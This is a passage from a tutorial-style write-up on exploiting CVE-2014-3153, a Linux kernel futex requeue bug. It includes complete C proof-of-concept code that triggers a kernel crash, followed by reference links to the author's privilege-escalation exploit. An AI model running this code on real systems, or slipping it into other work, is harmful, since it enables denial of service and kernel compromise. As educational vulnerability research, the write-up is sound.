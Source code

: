 Although how would we go about it by solely having a wild reference to that waiter?  
Quite frankly, the idea is fairly simple. There's nothing new about corrupting a node within a linked list in order to gain read and write capabilities.
Same applies here. We'd need to find a way to write to that dangling waiter,
and then perform certain operations on it so that the kernel would do as we please.

#### Kernel Crash

But let's start small. For now we'll just attempt to crash the kernel.  

I wrote a program that implements the steps that we listed above.  
Let's analyze it before going into the actual exploitation.
Here's the [code](https://github.com/elongl/CVE-2014-3153/blob/master/kernel_crash.c).

```c
#define CRASH_SEC 3

int main()
{
    pid_t pid;
    uint32_t *futexes;
    uint32_t *non_pi_futex, *pi_futex;

    assert((futexes = mmap(NULL, sizeof(uint32_t) * 2, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0)) > 0);

    non_pi_futex = &futexes[0];
    pi_futex = &futexes[1];

    flock(pi_futex);

    assert((pid = fork()) != -1);
    if (!pid)
    {
        fwait_requeue(non_pi_futex, pi_futex, 0);
        puts("Child continues.");
        exit(EXIT_SUCCESS);
    }

    printf("Kernel will crash in %u seconds...\n", CRASH_SEC);
    sleep(CRASH_SEC);

    frequeue(non_pi_futex, pi_futex, 1, 0);
    *pi_futex = 0;
    frequeue(pi_futex, pi_futex, 1, 0);

    wait(NULL);
}
```
The `flock`, `fwait_requeue`, and the `frequeue` functions are implemented in a small [futex wrappers] file that I've created for simplification and ease on the eyes.  

```c
futexes = mmap(NULL, sizeof(uint32_t) * 2, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0)
```


[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c